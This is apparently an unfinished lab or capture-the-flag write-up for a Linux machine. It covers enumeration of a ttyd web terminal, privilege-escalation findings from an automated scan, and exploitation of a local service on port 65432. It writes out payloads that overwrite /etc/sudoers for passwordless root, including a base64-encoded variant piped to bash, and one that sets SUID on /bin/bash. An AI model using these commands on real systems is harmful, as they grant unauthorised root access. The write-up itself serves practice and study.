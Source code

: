 #InProgress 
```IP
192.168.133.210
```
# Enumeration

## HTTP 80
ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)

# Exploitation

# PrivEsc

## Manual

## Automated

### Peass
linux exploits
pwnkit not working
[CVE-2021-3156] sudo Baron Samedit
[CVE-2021-3156] sudo Baron Samedit 2

active ports
```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                                                                          
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                                                                                                          
tcp        0      0 127.0.0.1:65432         0.0.0.0:*               LISTEN      -                                    
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN                                
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
.sh files in path
```
/usr/bin/gettext.sh                                                                     
/usr/bin/rescan-scsi-bus.sh
```

Searching for port 65432 we get an exploit.
Modifying the payload to ping our attacking machine will succeed. We will se some hexadecimal output nonetheless. 

```
ping -c 5 192.168.45.194
```
Unfortunately, the following payload to add our user to sudo will fail
```
echo “user ALL=(root) NOPASSWD: ALL” > /etc/sudoers
```
```
echo “user ALL=(root) NOPASSWD: ALL” > /etc/sudoers
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241201175406.png?raw=true)
encoding our payload in base64 doesnt work either
```
echo 'ZWNobyDigJx1c2VyIEFMTD0ocm9vdCkgTk9QQVNTV0Q6IEFMTOKAnSA+IC9ldGMvc3Vkb2Vycwo=' | base64 -d | bash
```
the following payload works fine:
```
chmod u+s /bin/bash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241201180145.png?raw=true)
### Mimikatz

# Lateral Movement
